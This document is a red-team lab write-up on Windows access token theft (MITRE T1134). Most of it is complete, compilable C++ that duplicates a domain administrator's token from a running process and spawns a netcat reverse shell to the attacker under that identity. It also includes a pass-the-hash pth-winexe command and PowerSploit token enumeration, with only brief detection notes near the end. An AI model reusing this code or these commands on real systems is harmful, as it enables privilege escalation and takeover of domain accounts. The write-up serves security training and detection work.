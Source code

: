 ```yaml
---
description: >-
  Defense Evasion, Privilege Escalation by stealing an re-using security access
  tokens.
---
```


# T1134: Access Token Manipulation

## Context

One of the techniques of token manipulations is creating a new process with a "stolen" token. This is when a token of an already existing access token present in one of the running processes on the local host, is retrieved, then duplicated and then used for creating a new process making the process run in the context of the stolen token.

A high level process of the token stealing that will be carried out in this lab is as follows:

| Step | Win32 API |
| :--- | :--- |
| Open a process with access token you want to steal | `OpenProcess` |
| Get a handle to the access token of that process | `OpenProcesToken` |
| Make a duplicate of the access token present in that process | `DuplicateTokenEx` |
| Create a new process with the newly aquired access token | `CreateProcessWithTokenW` |

## Weaponization

Below is the C++ code implementing the above process. Note the variable `PID_TO_IMPERSONATE` that has a value of `3060` This is a process ID that we want to impersonate/steal its token from, since it is running as a domain admin and makes for a good target:

![A victim cmd.exe process that is running under the context of DC admin offense\administrator](../.gitbook/assets/tokens-victim-3060.png)

Note the line 16, which specifies the executable that should be launched with an impersonted token, which in our case effectively is a simple netcat reverse shell calling back to the attacking system:

![](../.gitbook/assets/tokens-shell-c++.png)

This is the code if you want to compile and try it yourself:

{% code-tabs %}
{% code-tabs-item title="tokens.cpp" %}
```cpp
#include "stdafx.h"
#include <windows.h>
#include <iostream>

int main(int argc, char * argv[]) {
	char a;
	HANDLE processHandle;
	HANDLE tokenHandle = NULL;
	HANDLE duplicateTokenHandle = NULL;
	STARTUPINFO startupInfo;
	PROCESS_INFORMATION processInformation;
	DWORD PID_TO_IMPERSONATE = 3060;
	wchar_t cmdline[] = L"C:\\shell.cmd";
	ZeroMemory(&startupInfo, sizeof(STARTUPINFO));
	ZeroMemory(&processInformation, sizeof(PROCESS_INFORMATION));
	startupInfo.cb = sizeof(STARTUPINFO);	

	processHandle = OpenProcess(PROCESS_ALL_ACCESS, true, PID_TO_IMPERSONATE);
	OpenProcessToken(processHandle, TOKEN_ALL_ACCESS, &tokenHandle);
	DuplicateTokenEx(tokenHandle, TOKEN_ALL_ACCESS, NULL, SecurityImpersonation, TokenPrimary, &duplicateTokenHandle);			
	CreateProcessWithTokenW(duplicateTokenHandle, LOGON_WITH_PROFILE, NULL, cmdline, 0, NULL, NULL, &startupInfo, &processInformation);
	
	std::cin >> a;
    return 0;
}
```
{% endcode-tabs-item %}
{% endcode-tabs %}

## Execution

Launching `Tokens.exe` from the powershell console spawns a reverse shell that the attacker catches. Note how the `powershell.exe` - the parent process of `Tokens.exe` and `Tokens.exe` itself are running under `PC-Mantvydas\mantvydas`, but the newly spawned shell is running under `OFFENSE\Administrator` - this is because of the successful token theft:

![](../.gitbook/assets/token-shell-impersonated.png)

The logon for OFFESNE\administrator in the above test was of logon type 2 \(interactive logon, meaning I launched a new process on the victim system using a `runas /user:administrator@offense cmd` command\). 

Another quick test that I wanted to do is test a theft of an access token that was present in the system due to a network logon \(i.e psexec, winexec, pth-winexe, etc\), so I spawned a cmd shell remotely from the attacking machine to the victim machine via:

{% code-tabs %}
{% code-tabs-item title="attacker@local" %}
```text
pth-winexe //10.0.0.2 -U offense/administrator%pass cmd
```
{% endcode-tabs-item %}
{% endcode-tabs %}

which created a new process on the victim system with a PID of 4780:

![](../.gitbook/assets/tokens-winexe.png)

Enumerating all the access tokens on the victim system with `Invoke-TokenManipulation -ShowAll | ft -Wrap -Property domain,username,tokentype,logontype,processid` from PowerSploit gives the below. Note the available token \(highlighted\) - it is the cmd.exe from above screenshot and its logon type is as expected - 3 - a network logon:

![](../.gitbook/assets/tokens-all.png)

This token again can be stolen the same way. Let's change the PID in `Tokens.cpp` of the process we want to impersonate to 4780 \(it has the access token we want to steal\):

![](../.gitbook/assets/tokens-new-pid.png)

Running the compiled code invokes a new process with the newly stolen token:

![](../.gitbook/assets/tokens-new-shell.png)

note the cmd.exe has a PID 5188 - if we rerun the `Invoke-TokenManipulation`, we can see the new process is using the access token with logon type 3:

![](../.gitbook/assets/token-new-logon-3%20%281%29.png)

## Observations

Imagine you were investigating the host \(we stole tokens from\) because it exhibited some anomalous behaviour, in this particularly contrived example, since `Tokens.exe` was written to the disk on the victim system, you could have a quick look at its dissasembly and conclude it is attempting to manipulate access tokens - note that we can see the victim process PID and the CMDLINE arguments:

![](../.gitbook/assets/token-disasm.png)

As suggested by the above, you should think about API monitoring if you want to detect these manipulations on endpoints. Additionally, Windows event logs of IDs `4672` and `4674` may be helpful - below shows a network logon of a `pth-winexe //10.0.0.2 -U offense/administrator%pass cmd` and then later, a netcat reverse shell originating from the same logon session:

![](../.gitbook/assets/token-logs.png)

{% embed url="https://attack.mitre.org/wiki/Technique/T1134" %}

{% embed url="https://digital-forensics.sans.org/blog/2012/03/21/protecting-privileged-domain-accounts-access-tokens" %}

{% embed url="https://docs.microsoft.com/en-us/windows/desktop/SecGloss/p-gly\#-security-primary-token-gly" %}

{% embed url="https://technet.microsoft.com/pt-pt/library/cc783557%28v=ws.10%29.aspx?f=255&MSPPError=-2147217396" %}

{% embed url="https://docs.microsoft.com/en-us/windows/desktop/secauthz/access-tokens" %}

{% embed url="https://clymb3r.wordpress.com/2013/11/03/powershell-and-token-impersonation/" %}

{% embed url="https://msdn.microsoft.com/en-us/library/windows/desktop/aa446671\(v=vs.85\).aspx" %}

{% embed url="https://docs.microsoft.com/en-us/windows/desktop/api/winbase/nf-winbase-createprocesswithtokenw" %}

{% embed url="https://msdn.microsoft.com/en-us/library/windows/desktop/aa446617\(v=vs.85\).aspx" %}

{% embed url="https://www.youtube.com/watch?v=Ed\_2BKn3QR8" %}

[https://www.blackhat.com/docs/eu-17/materials/eu-17-Atkinson-A-Process-Is-No-One-Hunting-For-Token-Manipulation.pdf](https://www.blackhat.com/docs/eu-17/materials/eu-17-Atkinson-A-Process-Is-No-One-Hunting-For-Token-Manipulation.pdf)


